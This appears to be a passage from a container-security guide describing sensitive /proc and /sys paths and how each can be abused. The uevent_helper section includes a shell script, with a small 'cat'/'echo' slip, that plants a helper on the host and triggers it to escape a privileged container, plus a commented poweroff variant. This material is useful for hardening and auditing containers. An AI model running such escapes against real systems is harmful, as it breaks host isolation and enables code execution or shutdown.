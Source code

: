 ## /proc/\[pid]/mountinfo

[/proc/\[pid\]/mountinfo](https://man7.org/linux/man-pages/man5/proc.5.html) contains information about mount points in the process's mount namespace. It exposes the location of the container `rootfs` or image.

# sysfs

## /sys/kernel/uevent\_helper

`uevents` are events triggered by the kernel when a device is added or removed. Notably, the path for the `uevent_helper` can be modified by writing to `/sys/kernel/uevent_helper`. Then, when a `uevent` is triggered (which can also be done from userland by writing to files such as `/sys/class/mem/null/uevent`), the malicious `uevent_helper` gets executed.

```bash
# Creates a payload
cat "#!/bin/sh" > /evil-helper
cat "ps > /output" >> /evil-helper
chmod +x /evil-helper
# Finds path of OverlayFS mount for container
# Unless the configuration explicitly exposes the mount point of the host filesystem
# see https://ajxchapman.github.io/containers/2020/11/19/privileged-container-escape.html
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
# Sets uevent_helper to /path/payload
echo "$host_path/evil-helper" > /sys/kernel/uevent_helper
# Triggers a uevent
echo change > /sys/class/mem/null/uevent
# or else
# echo /sbin/poweroff > /sys/kernel/uevent_helper
# Reads the output
cat /output
```

## /sys/class/thermal

Access to ACPI and various hardware settings for temperature control, typically found in laptops or gaming motherboards. This may allow for DoS attacks against the container host, which may even lead to physical damage.

## /sys/kernel/vmcoreinfo

This file can leak kernel addresses which could be used to defeat KASLR.

## /sys/kernel/security

In `/sys/kernel/security` mounted the `securityfs` interface, which allows configuration of Linux Security Modules. This allows configuration of [AppArmor policies](https://gitlab.com/apparmor/apparmor/-/wikis/Kernel\_interfaces#securityfs-syskernelsecurityapparmor), and so access to this may allow a container to disable its MAC system.
